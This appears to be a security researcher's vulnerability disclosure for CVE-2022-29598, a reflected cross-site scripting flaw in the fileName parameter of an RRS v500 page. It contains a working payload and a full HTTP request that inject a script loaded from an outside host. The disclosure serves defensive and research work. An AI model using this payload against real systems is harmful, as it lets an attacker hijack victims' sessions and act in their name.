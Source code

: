 # CVE-2022-29598 : Reflected Cross-Site Scripting (XSS) in RSS v500

Mitre URL: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-29598

NIST URL: https://nvd.nist.gov/vuln/detail/CVE-2022-29598

The [RRS](https://solutions-atlantic.com/regulatory-reporting-system/) v500 application by Solutions Atlantic is vulnerable to a reflected Cross-Site Scripting (XSS) vulnerability. Exploitation of an XSS vulnerability could allow an adversary to masquerade as the victim user, disclose of sensitive data, or performs actions that the victim user is allowed to perform. 

The parameter `fileName` was found to accept user input and reflect it within the server's response. While some user input filtering and sanitization was performed prior to reflection, such as some special character encoding (greater/less than symbols), since the reflection occurred within a JavaScript context, JavaScript code could be injected into the server's response, bypassing the restrictions.

Affected URL:

- `/RRSWeb/maint/ShowDocument/ShowDocument.aspx`

XSS payload used:

- `javascript:var%20x=document.createElement("script");x.src="https://thegetch.github.io/x";document.body.appendChild(x)';//`

## Proof of Concept (POC):

### Show Document Functionality:

**Affected URL:** 

- `/RRSWeb/maint/ShowDocument/ShowDocument.aspx`

The application has the ability to link to external websites. When selecting a link to the external site, a request to `/RRSWeb/maint/ShowDocument/ShowDocument.aspx` is made with two parameters, `fileName`, which will contain the URL of the external site to be redirected to, and `requestType`, which will have the value `ExternalLink`. As long as the `requestType` parameter is set with its default value, anything a user puts into the `fileName` parameter will be reflected into a JavaScript context, specifically within a `window.location.href`. Using an XSS payload with a JavaScript directive, a successful Reflected XSS attack can occur. 

**GET request with XSS payload:**

```http
GET /RRSWeb/maint/ShowDocument/ShowDocument.aspx?requestType=ExternalLink&fileName=javascript:var%20x=document.createElement("script");x.src="https://thegetch.github.io/x";document.body.appendChild(x)';// HTTP/1.1
Host: <REDACTED>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: Keep-Alive
Referer: http://<REDACTED>/RRSweb/default.aspx
Cookie: ASP.NET_SessionId=<REDACTED>
Upgrade-Insecure-Requests: 1
Content-Length: 0


```

Server Response:

![01_RRS_XSS_Response_JS_Directive](https://raw.githubusercontent.com/TheGetch/CVE-2022-XXXXX-XSS/main/01_RRS_XSS_Response_JS_Directive.png)

Rendered in browser:

![02_RRS_XSS_Rendered](https://raw.githubusercontent.com/TheGetch/CVE-2022-XXXXX-XSS/main/02_RRS_XSS_Rendered.png)

## Discovery
April 2022
- Eric Getchell - TheGetch

